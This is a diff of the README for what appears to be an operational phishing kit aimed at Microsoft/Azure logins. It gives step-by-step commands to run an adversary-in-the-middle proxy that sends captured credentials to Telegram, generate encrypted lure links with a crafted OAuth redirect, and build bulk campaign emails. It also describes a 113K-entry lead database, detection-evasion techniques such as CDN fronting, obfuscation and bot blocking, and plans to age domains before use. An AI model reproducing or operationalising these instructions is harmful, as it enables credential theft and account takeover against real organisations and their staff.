

Before and after one commit to busconductors/azure-phish-kit, a Markdown page: README.md, the part around one of its changes. Shown at 98% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -41,37 +75,51 @@ go run . --key <key> --email victim@corp.com \
 
-# 4. Start proxy server
+# 4. Build and start proxy
 cd ../proxy-server
-TELEGRAM_BOT_TOKEN="..." TELEGRAM_CHAT_ID="..." go run .
+go build -o proxy-srv .
+TELEGRAM_BOT_TOKEN="..." TELEGRAM_CHAT_ID="..." ./proxy-srv
 
 # 5. Start analytics (optional)
 cd ../analytics-server
-go run . --token "your-secret-token"
+go build -o analytics-srv .
+./analytics-srv --data ../data/captures.jsonl --port 9092 --token "strong-token"
 
 # 6. Deploy CDN fronting
 cd ../cdn-config
-npx wrangler deploy
+# Edit wrangler.toml with your domain
+npx wrangler login && npx wrangler deploy
+
+# 7. Generate a campaign link
+cd ../payload-generator
+go run . --key <key> --email victim@company.com \
+  --redirect "https://login.microsoftonline.com/common/oauth2/authorize?client_id=CLIENT_ID&redirect_uri=https://login.your-domain.com&response_type=code&prompt=login" \
+  --campaign my-campaign
+
+# 8. Build campaign emails
+cd ../scripts
+./build-campaign-email.sh shared-document "https://your-domain.com/#<fragment>" "John" email.html
 ```
 
 ## Components
 
 | Component | Directory | Purpose |
 |-----------|-----------|---------|
-| Proxy Server | `proxy-server/` | AiTM reverse proxy, Telegram exfil, bootloader |
-| Payload Generator | `payload-generator/` | AES-256-GCM encrypted lure URLs |
-| Analytics Server | `analytics-server/` | Campaign dashboard, JSONL event tracking |
-| CDN Config | `cdn-config/` | Cloudflare Worker reverse proxy |
-| URL Generator | `scripts/` | Assembles phishing URLs |
+| Proxy Server | `proxy-server/` | AiTM reverse proxy, Telegram alerts, bootloader, phishlets |
+| Payload Generator | `payload-generator/` | AES-256-GCM encrypted lure URL generation |
+| Analytics Server | `analytics-server/` | Campaign dashboard, JSONL event tracking, funnel analytics |
+| CDN Config | `cdn-config/` | Cloudflare Worker reverse proxy, bot blocking at edge |
+| Email Lures | `lures/`, `campaign-emails/` | 20 HTML email templates ready for SuperMailer |
+| Lead Database | `data/` | 113K+ leads across 163 companies, MX-verified |
+| Playbook | `docs/playbook/` | Full operations guide in MD, HTML, PDF |
+| Scripts | `scripts/` | Campaign email builder, URL generation, obfuscation |
 
-## Detection Evasion
+## Planned Next Steps
 
-- **AiTM proxy only** — victim sees real login page, zero DOM fingerprinting
-- **URL fragment** (`#`) never sent to server — invisible to network scanners
-- **AES-256-GCM with random prefix** — no static signatures, no `mv=`/`bXY9` pattern
-- **CDN fronting** — victims see Cloudflare TLS cert, origin IP hidden
-- **Obfuscated JS** — all symbols renamed, no `AES_KEY_B64` or `decryptAESGCM` strings
-- **Bot blocking** — crawlers get 404, not phishing pages
-- **Rate limiting** — 10 req/min per IP
-- **Generic endpoints** — `/auth`, `_s`, `_c` — no `/capture` or `__upstream` signatures
+- [ ] **Domain rotation** — register batch of `.cc` domains, age 2-3 weeks before deployment
+- [ ] **Multi-host phishlet** — proxy office.com alongside login.microsoftonline.com for full personal account support
+- [ ] **Email verification API** — integrate ZeroBounce/Hunter.io for deliverable lead verification
+- [ ] **Evilginx 3 phishlet export** — convert our JSON phishlets to Evilginx YAML format for compatibility
+- [ ] **Automated campaign manager** — web UI for building campaign emails, tracking open rates, managing lures
+- [ ] **Multi-domain deployment script** — one-command deploy to new domain with all configs updated
 
 ## Requirements
 
@@ -79,6 +127,7 @@ npx wrangler deploy
 - Node.js 18+ (cdn-config — Cloudflare Wrangler)
 - Cloudflare account (for CDN fronting)
 - Telegram bot (for capture notifications)
+- SuperMailer or similar bulk email software (for campaign delivery)
 
 ## Warning
 
````
Also changed, not shown: other parts of README.md (+55 -21 lines).
